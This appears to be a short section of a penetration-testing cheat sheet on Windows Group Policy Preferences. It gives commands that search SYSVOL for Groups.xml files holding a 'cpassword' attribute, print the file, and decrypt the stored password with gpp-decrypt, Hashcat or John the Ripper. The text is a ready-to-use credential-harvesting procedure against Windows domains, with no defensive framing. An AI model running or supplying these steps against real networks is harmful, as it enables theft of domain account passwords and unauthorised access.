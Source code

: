 # Group Policy Preferences

Use the `dir` command to find the XML file

`C:\> dir /s Groups.xml`

`C:\> findstr /s cpassword %LOGONSERVER%\sysvol\*.xml`

Copy the attribute called **cpassword** after you've opened the XML file. Then decrypt it using `gpp-decrypt` utility or any other password cracking programs that is highly recommended like **Hashcat** or **John The Ripper**.

`C:\> type C:\path\to\GPP_file.xml`